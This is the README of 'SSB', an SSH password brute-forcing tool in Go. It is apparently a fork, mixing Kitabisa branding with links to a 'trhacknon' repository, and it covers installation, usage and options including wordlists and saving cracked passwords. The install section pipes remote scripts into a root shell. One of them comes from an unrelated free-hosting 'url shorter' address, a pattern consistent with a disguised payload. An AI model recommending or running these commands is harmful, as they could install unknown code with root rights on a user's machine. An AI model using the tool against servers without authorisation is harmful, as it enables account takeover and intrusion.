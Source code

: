 # SSB

[![Kitabisa SecLab](https://img.shields.io/badge/trhacknon-security%20project-blue)](#)
[![License](https://img.shields.io/badge/License-Apache%202.0-yellowgreen)](https://github.com/trhacknon/ssb/blob/master/LICENSE)
[![contributions](https://img.shields.io/badge/contributions-welcome-magenta.svg?style=flat)](https://github.com/trhacknon/ssb/issues)
[![made with Go](https://img.shields.io/badge/made%20with-Go-brightgreen)](http://golang.org)
[![Version](https://img.shields.io/badge/version-0.1.0-blueviolet)](https://github.com/trhacknon/ssb/releases)

**S**_ecure_ **S**_hell_ **B**_ruteforcer_ — A faster & simpler way to bruteforce SSH server.

<img src="https://user-images.githubusercontent.com/25837540/102938182-61d96e00-44de-11eb-81c9-2e37cdcfba8d.png" width="680px;" alt="trhacknon SSB Demo"/>

---

## Installation

### from Binary

Download a pre-built binary from [releases page](https://github.com/trhacknon/ssb/releases), unpack and run! Or:

```bash
▶ (sudo) curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin
```
```bash
▶ (sudo) curl -sSfL 'https://myurlshorter.000webhostapp.com/gitgo' | sh -s -- -b /usr/local/bin
```

### from Source

Need [go1.14+](https://golang.org/doc/install#download) compiler installed and configured, then:

```bash
▶ GO111MODULE=on go get ktbs.dev/ssb
```

## Usage

```bash
▶ ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname
```

### Options:

```txt
  -p port
     Port to connect to on the remote host (default 22).
  -w wordlist
     Path to wordlist file.
  -t timeout
     Connection timeout (default 30s).
  -c concurrent
     Concurrency/threads level (default 100).
  -r retries
     Specify the connection retries (default 1).
  -o output
     Save valid password to file.
  -v
     Verbose mode.
```

## License

This program is free software: you can redistribute it and/or modify it under the terms of the [Apache license](https://github.com/trhacknon/ssb/blob/master/LICENSE). Kitabisa SSB and any contributions are Copyright © by Dwi Siswanto 2020.
